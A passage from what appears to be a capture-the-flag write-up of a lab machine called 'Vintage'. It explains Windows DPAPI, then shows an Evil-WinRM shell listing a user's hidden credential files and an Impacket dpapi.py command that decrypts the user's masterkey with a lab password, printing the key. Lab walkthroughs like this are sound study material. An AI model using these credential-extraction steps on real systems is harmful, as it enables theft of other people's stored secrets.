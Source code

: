 ### 🔐 What is DPAPI?

**DPAPI (Data Protection API)** is a Windows feature used to securely store sensitive data like passwords, private keys, and credentials. It handles encryption and decryption without needing the developer to manage keys manually.

### ⚙️ How does DPAPI work?

- **Encryption**: Uses the user’s login credentials or system secrets to encrypt data.
- **Decryption**: Only the same user or system context can decrypt the data.
- **Security**: Tied to Windows accounts — only the original user (or admin) can access their encrypted data.

```bash
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> dir -force

    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6

*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> dir
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> 
```

as u can see `dir` not work here its similar to `ls -la` at Linux.

Lets download it and
![alt text](../assets/images/vintage17.png)
First of all we need `Decrypted key` and we can get with

```bash
➜  Vintage dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne 
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
